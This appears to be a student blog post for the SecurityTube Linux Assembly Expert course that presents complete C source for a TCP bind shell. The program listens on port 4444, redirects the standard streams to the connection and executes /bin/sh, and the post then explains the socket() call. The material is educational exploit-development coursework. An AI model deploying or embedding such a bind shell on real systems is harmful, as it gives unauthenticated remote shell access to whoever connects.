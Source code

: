 ## Assignment 0x01: Create A Shell_Bind_TCP Shellcode
---
```c
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main ()
{

    int sockfd = socket(AF_INET, SOCK_STREAM, 0);
    
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(4444);
    addr.sin_addr.s_addr = INADDR_ANY;

    bind(sockfd, (struct sockaddr *)&addr, sizeof(addr));
    listen(sockfd, 0);

    int connfd = accept(sockfd, NULL, NULL);
    for (int i = 0; i < 3; i++)
    {
        dup2(connfd, i);
    }

    execve("/bin/sh", NULL, NULL);
    return 0;
}
```

First, a socket is created using `socket()`. As described in `man 2 socket`, the `socket` function creates an endpoint for communication and returns a file descriptor that refers to that endpoint. 

The function expects a domain argument, a type argument, and a protocol argument.

`int sockfd = socket(AF_INET, SOCK_STREAM, 0);`

In this case, the domain argument AF_INET specifies the IPv4 communication protocol, the type argument SOCK_STREAM specifies the connection-based TCP standard for data exchange, and the protocol argument 0 indicates that the system should select the default protocol number based on the previously specified domain and protocol arguments.

_This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:_

<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert>

_Student ID: SLAE-1469_

---
[Home](https://norrismw.github.io/SLAE)
